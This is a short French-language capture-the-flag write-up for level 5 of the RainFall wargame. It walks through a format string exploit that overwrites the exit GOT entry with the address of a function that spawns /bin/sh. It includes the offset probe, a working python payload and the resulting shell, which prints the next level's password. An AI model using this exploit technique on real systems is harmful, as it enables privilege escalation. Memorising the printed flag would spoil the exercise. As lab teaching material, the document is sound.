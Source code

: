 # Level 5

On vas encore une fois utiliser une format string attaque.
cette fois nous avons une fonction `n` appeler dans le main qui va appeler comme les fois precedante printf avec le retour de l'entrer standard lue avec `fget`. Mais cette foi pas de condition qui donne les droit, elle exit apres le printf, par contre nous avons une fonction `o` a l'adresse `0x080484a4` non-appeler qui execute un `"/bin/sh"` donc il faut donc appeler la fonction `o` a la place de `exite` a l'adresse `0x8049838`.

En utilisant la meme logique que les levels precedents on cherche la position dans la stack ici on voit que l'adresse est en 4 position.
```
level5@RainFall:~$ python -c "print 'aaaa' + ' %x' * 4" | ./level5 
aaaa 200 b7fd1ac0 b7ff37d0 61616161
level5@RainFall:~$ 
```
On injecte donc l'adresse de la fonction o a la place de l'exit initialement appeler. Il nous faut donc l'adresse de o en decimal - 4 octets `0x080484a4` = `134513828` 134513828 - 4 = 134513824

 - `0x080484a4` = 134513828
 - 134513828 - 4 = 134513824
```
level5@RainFall:~$ python -c "print '\x38\x98\x04\x08' + '%134513824d%4\$n'" > /tmp/payload
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```